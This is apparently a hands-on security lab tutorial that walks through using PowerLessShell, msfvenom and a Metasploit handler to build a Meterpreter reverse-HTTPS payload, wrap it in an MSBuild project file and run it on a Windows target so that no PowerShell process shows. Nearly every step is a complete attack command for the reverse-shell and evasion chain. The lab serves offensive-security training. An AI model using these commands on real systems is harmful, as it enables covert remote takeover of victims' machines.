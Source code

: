 PowerLessShell is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process.  PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

First, let's download a copy of the project from the GitHub repo onto the AttackBox:

- **Terminal**

```shell-session
user@machine$ git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
	    
```

One of the project requirements is to get a PowerShell payload to make it suitable to work with MSBuild. On the AttackBox, we need to  generate a PowerShell payload using msfvenom as follows: 

- **Terminal**

```shell-session
user@machine$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1	    
```

Also, we need to run the Metasploit framework to listen and wait for the reverse shell.

- **Terminal**

```shell-session
user@machine$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => AttackBox_IP lport => 4443
[*] Started HTTPS reverse handler on https://AttackBox_IP:4443	    
```

Now that we have the payload ready, change to the PowerLessShell  directory project to convert the payload to be compatible with the  MSBuild tool. Then run the PowerLessShell tool and set the source file  to the one we created with msfvenom as follows:

- **Terminal**

```shell-session
user@machine$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj	    
```

Once the command is executed successfully, we need to transfer the  output file to the Windows machine. You can do this using the SCP command or set a web server to host the file on the AttackBox (python3 -m http.server 1337) and download the file using the browser.

Finally, on the target Windows machine, build the .csproj file and wait for the reverse shell!

- **Command Prompt**!

```shell-session
C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
	    
```

Once we run the MSBuild command, wait a couple of seconds till we receive a reverse shell. Note that there will be no powershell.exe process is running.